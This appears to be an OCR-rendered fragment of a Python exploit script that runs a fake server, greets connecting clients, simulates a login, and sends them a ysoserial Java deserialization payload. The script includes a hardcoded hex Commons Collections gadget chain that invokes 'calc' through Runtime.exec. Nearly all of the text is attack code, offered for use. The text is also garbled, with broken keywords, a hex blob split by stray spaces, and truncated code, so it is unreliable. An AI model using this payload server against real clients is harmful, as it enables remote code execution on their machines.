 ````sql
    return str(data).lower()

def send_data(conn,data):
    print("[*] Sending the package : {}".format(data))
    conn.send(binascii.a2b_hex(data))

def get_payload_content():
    #The content of the file is generated using ysoserial. Use rules: java -jar ysoserial [Gadget] [command] > payload
    file= r'payload'
    if os.path.isfile(file):
        with open(file, 'rb') as f:
            payload_content = str(binascii.b2a_hex(f.read()), encoding='utf-8')
        print("open success")

    else:
        print("open false")
        #calc
        payload_content='aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b7340300007870770c00000000023f4000000000000001737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6b6 57976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372002a6f72672e 6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f547261 6e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d6 5727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f7 26d65723bbd562af1d8341899020000787000000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c00 0969436f6e7374616e7471007e00037870767200116a6176612e6c616e672e52756e74696d65000000000000000000000000000000000000000000000000000000000000000000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e7 66f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b695061
72616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02 0000787000000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a9902000078700000000007400096 765744d6574686f647571007e001b0000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e001b7371007e0013 7571007e001800000002707571007e001800000000740006696e766f6b657571007e001b00000002767200106a6176612e6c616e672e4f626a6563740000000000 000000000000000000078707671007e00187371007e0013757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b470200007870000000017400 0463616c63740004657865637571007e001b000000171007e00207371007e000f737200116a6176612e6c616e672e496e746567657212e2a0a4f7818738020 00149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173 684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000000007708000000010000000000000787878'
    return payload_content

# Main logic
def run():

    While 1:
        conn, addr = sk.accept()
        print("Connection come from {}:{}".format(addr[0],addr[1]))

        # 1. Send the first greeting message first
        send_data(conn, greeting_data)

        While True:
            # Login authentication process simulation 1. The client sends request login message 2. The server responds to response_ok
            receive_data(conn)
            send_data(conn,response_ok_data)
````
